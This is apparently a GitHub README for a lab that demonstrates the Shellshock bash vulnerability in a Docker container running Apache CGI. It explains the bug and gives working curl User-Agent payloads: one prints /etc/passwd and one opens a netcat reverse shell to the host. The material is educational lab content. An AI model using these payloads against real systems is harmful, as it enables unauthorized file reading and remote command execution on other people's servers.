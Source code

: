 forked from https://github.com/tex2e/docker-shellshock-cgi


# Shellshock
This repository consists of a description and a demonstration of the shellshock vulnerablity. The demonstration is based on a docker container containing a CentOS8 linux distribution with a vulnerable bash (v4.3), an Apache2 Webserver and netcat.

## Description of vulnerability
In the standard linx bash it is possible to store not only values but also functions in environment variables. When such functions are stored in environment variables, there is a bug that prevents the parsing process from not terminating after the function ends. Instead, anything entered after the function is executed directly in the current shell environment.

By itself, this bug cannot be abused from the outside. In combination with a webserver and an associated Common Gateway Interface (CGI) this bug becomes dangerous. The CGI interface is used to get e.g. browser specific data from the webserver to an application by the following procedure:


1. the request is sent to the web server 
2. the web server stores general data as environment variables in the current environment
3. the cgi application can get this information by reading the environment variables.

With this behavior, it is possible to send a request to the web server that contains some function-like lines and concatenated code snippets. After parsing the function, the parsing process does not stop and executes the additional code snippets directly in bash


## Demonstration
Prerequisites:
- Docker
- git 
- netcat

### Build and run docker container
1. clone this git repository 
```bash 
$ git clone https://github.com/juuugee/docker-shellshock-cgi.git 
 ```
2. navigate inside the cloned directory
```bash 
$ cd docker-shellshock-cgi/
 ```

3. build docker container: 
``` bash
$ docker build -t seccode/shellshock .
```
4. run docker container: 
``` bash
$ docker run -itd -p 80:80 --privileged --add-host=host.docker.internal:host-gateway --name secode_shellshock seccode/shellshock /sbin/init
``` 
To make sure that the docker container is running, enter the following url in a browser: 

    http://localhost:80


### Attack 1 
(Linux terminal preferred)

With the curl command, send a request to the webserver of the running docker container. 
In this example, the file **etc/passwd** can be accessed and directly printed out:
```bash
$ curl -A "() { :;}; echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://localhost:80/cgi-bin/test.cgi
```

In the command above, the expression *() { :;};* is a empty function which should be parsed into a envrionment variable. Instead of stopping the parsing process the addtional code is being executed, which accessses the **etc/passwd** file and prints it with the **/bin/cat** tool in our console.

### Attack 2
in the second attack a reverse shell is being created. 
1. start netcat listener on the host computer:
```    
$ nc -lp 4545
```
This listener waits for the docker container to connect to it.     

2. Establish a connection:
In a second terminal send the request below to the webserver in the docker container. This leads to a reverse shell.
```
$ curl -A "() { :;}; /bin/bash -c \"nc host.docker.internal 4545 -e /bin/bash\"& " http://localhost:80/cgi-bin/test.cgi
```

After executing this command the netcat listener in the first termimal should display an incoming connection. Now it is possible to enter commands in this terminal which then are directly executed in the docker container. Below are some examples:
```
$ whoami
$ pwd
$ ls
$ cd
...
```

### See Also

- [mubix/shellshocker-pocs: Collection of Proof of Concepts and Potential Targets for #ShellShocker](https://github.com/mubix/shellshocker-pocs)
- [docker-shellshockable/Dockerfile at master · Zenithar/docker-shellshockable](https://github.com/Zenithar/docker-shellshockable/blob/master/Dockerfile)
